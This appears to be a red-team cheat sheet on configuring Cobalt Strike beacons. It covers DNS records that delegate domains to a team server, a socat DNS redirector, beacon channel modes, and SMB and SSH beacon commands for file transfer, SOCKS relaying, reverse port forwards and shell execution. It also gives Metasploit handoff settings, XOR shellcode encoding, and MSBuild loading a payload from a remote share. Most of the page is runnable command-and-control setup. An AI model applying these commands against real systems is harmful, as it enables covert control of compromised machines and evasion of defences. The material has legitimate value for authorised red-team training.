 # Cobalt Strike - Beacons

## DNS Beacon

### DNS Configuration

* Edit the `Zone File` for the domain
* Create an `A record` for Cobalt Strike system
* Create an `NS record` that points to FQDN of your Cobalt Strike system

Your Cobalt Strike team server system must be authoritative for the domains you specify. Create a `DNS A` record and point it to your Cobalt Strike team server. Use `DNS NS` records to delegate several domains or sub-domains to your Cobalt Strike team server's `A` record.

Example of DNS on Digital Ocean:

```powershell
NS  example.com                     directs to 10.10.10.10.            86400
NS  polling.campaigns.example.com   directs to campaigns.example.com. 3600
A campaigns.example.com           directs to 10.10.10.10             3600 
```

After creating a DNS listener (`Beacon DNS`), verify that your domains resolve to `0.0.0.0`

* `nslookup jibberish.beacon polling.campaigns.domain.com`
* `nslookup jibberish.beacon campaigns.domain.com`

If you have trouble with DNS, you can restart the `systemd` service and force Google DNS nameservers.

```powershell
systemctl disable systemd-resolved
systemctl stop systemd-resolved
rm /etc/resolv.conf
echo "nameserver 8.8.8.8" >  /etc/resolv.conf
echo "nameserver 8.8.4.4" >>  /etc/resolv.conf
```

### DNS Redirector

```ps1
socat -T 1 udp4-listen:53,fork udp4:teamserver.example.net:53
```

Debug the DNS queries with `tcpdump -l -n -s 5655 -i eth0  udp port 53`.

### DNS Mode

| Mode | Description |
| --- | --- |
| `mode dns-txt` | DNS TXT record data channel (default) |
| `mode dns`     | DNS A record data channel |
| `mode dns6`    | DNS AAAA record channel |

## SMB Beacon

```powershell
link [host] [pipename]
connect [host] [port]
unlink [host] [PID]
jump [exec] [host] [pipe]
```

SMB Beacon uses Named Pipes. You might encounter these error code while running it.

| Error Code | Meaning              | Description                                        |
|------------|----------------------|----------------------------------------------------|
| 2          | File Not Found       | There is no beacon for you to link to              |
| 5          | Access is denied     | Invalid credentials or you don't have permission   |
| 53         | Bad Netpath          | You have no trust relationship with the target system. It may or may not be a beacon there. |

## SSH Beacon

```powershell
# deploy a beacon
beacon> help ssh
Use: ssh [target:port] [user] [pass]
Spawn an SSH client and attempt to login to the specified target

beacon> help ssh-key
Use: ssh [target:port] [user] [/path/to/key.pem]
Spawn an SSH client and attempt to login to the specified target

# beacon's commands
upload                    Upload a file
download                  Download a file
socks                     Start SOCKS4a server to relay traffic
sudo                      Run a command via sudo
rportfwd                  Setup a reverse port forward
shell                     Execute a command via the shell
```

## Metasploit compatibility

* Payload: `windows/meterpreter/reverse_http or windows/meterpreter/reverse_https`
* Set `LHOST` and `LPORT` to the beacon
* Set `DisablePayloadHandler` to `True`
* Set `PrependMigrate` to `True`
* `exploit -j`

## Custom Payloads

```powershell
* Attacks > Packages > Payload Generator 
* Attacks > Packages > Scripted Web Delivery (S)
$ python2 ./shellcode_encoder.py -cpp -cs -py payload.bin MySecretPassword xor
$ C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\Windows\Temp\dns_raw_stageless_x64.xml
$ %windir%\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe \\10.10.10.10\Shared\dns_raw_stageless_x86.xml
```

## References

* [Cobalt Strike > User Guide > DNS Beacon](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/listener-infrastructue_beacon-dns.htm)
* [Simple DNS Redirectors for Cobalt Strike - Thursday 11 March, 2021](https://www.cobaltstrike.com/blog/simple-dns-redirectors-for-cobalt-strike)
* [CobaltStrike DNS Beacon Lab Setup - rioasmara - March 18, 2023](https://rioasmara.com/2023/03/18/cobaltstrike-dns-beacon-lab-setup/)
